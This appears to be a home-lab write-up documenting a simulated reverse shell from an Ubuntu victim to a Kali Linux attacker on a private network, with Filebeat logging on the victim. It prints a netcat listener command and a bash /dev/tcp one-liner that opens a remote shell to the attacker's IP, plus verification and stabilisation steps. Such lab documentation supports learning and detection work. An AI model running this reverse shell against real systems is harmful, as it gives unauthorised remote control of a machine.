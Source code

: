 # Reverse Shell attack Documenation

#Goal
Creating a simulate initial foothold by creating a reverse shell from the 
victim machine to the attackers Kali Linux machine 

# Environment

- ** Attacker:** Kali Linux
- **Victim:** Ubunto Server
- **Attackers IP**: 192.168.1.4
- **Victim IP**: 192.168.1.32
- **Port**: 4444

# Step by step Execution

### 1. Listener Setup(attacker setup)

First, i opened a Netcat listener on the attacker setup wating from a incoming connection
from the Victim set up.
-----------------------
nc -Lvnp 4444
-----------------------

### 2. Triggering the reverse shell(Victim Setup)

On the victim machine, i have crafted a one-liner to start the reverse shell.
when ran correctly the shell session should open in the attackers side.

-----------------------
bash -i >& /dev/tcp/192.168.1.4/4444 0>&1
-----------------------

### 3. Shell Verification

Had to confirmed i had access by running the following command:
-----------------------
whoami
id
hostname
-----------------------

## 4. Shell Stabilization

The raw reverse shell got unstable, inputs were starting to lag and started to show 
all inputs in caps. Fixed it by running this command:
------------------------
export TERM=xterm
------------------------
Then procedded to close the terminal and started to re-did everything untill i got back
up to the reverse prompt


# Outcome
 - Shell was establised and stabilized
 - The Vicim system responded well after fixing the instable reverse shell
 - Filebeat(on Victim setup) was logging everything


# Notes
- This attack assumes the attacker has a way to execute a command on the victum
- The reverse command can be blocked off by firewalls if the ports were filiterd.

